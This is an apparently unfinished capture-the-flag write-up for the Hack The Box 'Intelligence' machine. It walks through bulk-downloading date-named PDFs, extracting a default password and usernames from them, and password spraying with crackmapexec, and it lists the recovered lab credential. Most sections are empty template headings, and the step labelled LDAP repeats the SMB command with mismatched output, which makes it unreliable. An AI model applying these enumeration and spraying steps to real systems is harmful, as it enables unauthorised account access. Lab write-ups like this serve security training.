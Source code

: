 ```yaml
---
description: >-
  Intelligence HTB Machine
title: Intelligence (Medium)                # Add title here
date: 2023-05-30 08:00:00 -0600                           # Change the date to match completion date
categories: [HackTheBox, Windows - Medium]                     # Change Templates to Writeup
tags: [hackthebox, intelligence, ]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Intelligence.png                # Add infocard image here for post preview image
---
```

### Host entries:
```bash
10.10.10.248
```
If Active Directory => [NTP Synchronization](https://shuciran.github.io/posts/NTP-Synchronization/) with the domain controller.

### Content

- 
- 

### Reconnaissance

Initial reconnaissance for TCP ports
```bash

```
Services and Versions running:
```bash

```

By enumerating the web server we identify the following links to download two different files:

![Web-Server-Download](/assets/img/Pasted image 20230530213130.png)

Accessing this links, we identify a pattern on both files `http://intelligence.htb/documents/2020-12-15-upload.pdf` and `http://intelligence.htb/documents/2020-01-01-upload.pdf` as we can see this seems to be an static link with a slightly difference which is the dates, so let's proceed to create a python script that creates a datelist:
```python
from datetime import datetime
import pandas as pd

# start date
start_date = datetime.strptime("2020-01-01", "%Y-%m-%d")
end_date = datetime.strptime("2020-12-31", "%Y-%m-%d")

# difference between each date. D means one day
days = 365

date_list = pd.date_range(start_date, periods=days).tolist()
#print(f"Creating list of dates starting from {start_date} to {end_date}")
#print(date_list)

# if you want dates in string format then convert it into string
#dates=date_list.strftime("%Y-%m-%d")
for i in range(0,days):
        print(date_list[i])
```
And then we print the results within a file:
```bash
python3 dates.py > dates
```
Since the results are in the format `2020-06-22 00:00:00` we need to treat the results we can do that with `sponge` and `cut` commands:
```bash
cat dates | cut -d " " -f1 | sponge dates
```
Then we have the list of dates needed to download all the URLs with a file inside, since the dates are only for 2020 year then we'll download from 2020-01-01 until 2020-12-31:
```bash
for i in $(cat dates); do wget http://intelligence.htb/documents/$i-upload.pdf ; done
```

Finally, we use the tool `pdfgrep` to search for strings such as `password` within the downloaded files:
```bash
pdfgrep 'password' *.pdf  
2020-06-04-upload.pdf:Please login using your username and the default password of:
2020-06-04-upload.pdf:After logging in please change your password as soon as possible.
```
Within this pdf we found a password `NewIntelligenceCorpUser9876`:
![Downloadable-Content-With-Password](/assets/img/Pasted image 20230530214716.png)

Now we need to search for a user, we can use the same command as before but unfortunately this is unsuccessful:
```bash
pdfgrep 'user' *.pdf    
2020-06-04-upload.pdf:Please login using your username and the default password of:
```
So let's try with an `exiftool` command over all the pdfs and extract a list of possible users as using `grep`, `tr` and `cut`:
```bash
exiftool *.pdf | grep Creator | tr -d " " | cut -d ":" -f2 > users
```
Now that we have credentials we can execute a [Password Spraying](https://shuciran.github.io/posts/Password-Spraying/) [^password-spraying] attack on winrm service:
```bash
crackmapexec winrm 10.10.10.248 -u users -p 'NewIntelligenceCorpUser9876' --continue-on-success
SMB         10.10.10.248    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:intelligence.htb)
<SNIP>
WINRM       10.10.10.248    5985   DC               [-] intelligence.htb\JACK.O'BRIEN:NewIntelligenceCorpUser9876
WINRM       10.10.10.248    5985   DC               [-] intelligence.htb\JACK.WATTS:NewIntelligenceCorpUser9876
WINRM       10.10.10.248    5985   DC               [-] intelligence.htb\JACK.ROSE:NewIntelligenceCorpUser9876
```
Unsuccessful response, so let's try the same attack but for SMB:
```bash
crackmapexec smb 10.10.10.248 -u users -p 'NewIntelligenceCorpUser9876' --continue-on-success 
SMB      10.10.10.248    445    DC   [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) 
SMB      10.10.10.248    445    DC   [-] intelligence.htb\Richard.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB      10.10.10.248    445    DC   [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876  
<SNIP>
SMB      10.10.10.248    445    DC   [-] intelligence.htb\Samuel.Richardson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB      10.10.10.248    445    DC   [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
SMB      10.10.10.248    445    DC   [-] intelligence.htb\Ian.Duncan:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
<SNIP> 
SMB      10.10.10.248    445    DC   [-] intelligence.htb\Jason.Patterson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
```
Credentials work for user `Tiffany.Molina` on service SMB, however let's try with ldap as well:
```bash
crackmapexec smb 10.10.10.248 -u users -p 'NewIntelligenceCorpUser9876' --continue-on-success 
LDAP   10.10.10.248  445  DC  [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True)
LDAP   10.10.10.248  445  DC  [-] intelligence.htb\Richard.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
LDAP   10.10.10.248  445  DC  [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876  
<SNIP>
LDAP   10.10.10.248  445  DC  [-] intelligence.htb\Samuel.Richardson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
LDAP   10.10.10.248  445  DC  [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
LDAP   10.10.10.248  445  DC  [-] intelligence.htb\Ian.Duncan:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
<SNIP> 
LDAP   10.10.10.248  445  DC  [-] intelligence.htb\Jason.Patterson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
```
Since we have access to the 


### Exploitation


### Root privesc

### Post Exploitation

### Credentials

```bash
Tiffany.Molina:NewIntelligenceCorpUser9876
```

### Notes

-   Chisel have different configurations, this time we use a Forward SOCKS Proxy, which is a bind shell, that is not neccessarily the easiest way to forward the remote port, but is a new way to consider in case that a reverse shell is not possible.
-   Always look for exploits, analyze them and check if something can be useful to exploit the machine.
-   Chisel has some

### Resources

[^password-spraying]: Password Spraying

